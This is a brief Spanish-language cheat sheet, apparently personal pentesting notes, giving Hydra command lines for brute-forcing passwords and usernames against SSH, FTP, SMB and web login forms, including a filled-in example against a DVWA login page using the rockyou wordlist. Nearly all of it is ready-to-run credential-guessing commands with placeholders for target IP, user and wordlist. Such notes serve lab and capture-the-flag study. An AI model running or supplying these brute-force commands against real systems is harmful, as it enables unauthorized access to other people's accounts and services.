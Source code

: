 
Utilizado para bruteforce de SSH teniendo nombre de usuario:
```bash
hydra -l {usuario} -P {diccionario} ssh://{IP}
```

Para website de login ya sabiendo al menos el usuario:
```bash
hydra -l {usuario} -P {diccionario} {IP} http-post-form '{ruta donde esta el login php:username^USER^&password=^PASS^&Login=Login:{msj de error}}'
```
EJEMPLO:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.52 http-post-form '/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed'
```

Podemos hacer lo mismo para hacer bruteforce con nombres de usuario:
``` bash
hydra -L {diccionario} -p test {IP} '{ruta donde esta el login php:log^USER^&pwd=^PWD^:{msj de error}}'
```

ATENCIÓN: log y pwd cambian de nombre según lo que interceptemos con Burpsuite.

ATENCIÓN: usamos -l si vamos a poner un string y -L si vamos a utilizar un diccionario, los mismo con -p y -P

Ataque Hydra para cliente SMB (windows, port 445, sabiendo usuario)
```bash
hydra -l {usuario} -P /usr/share/wordlists/rockyou.txt smb://{IP}
```


Utilizado para bruteforce de FTP teniendo nombre de usuario:
```bash
hydra -l {usuario} -P {diccionario} ftp://{IP}
```

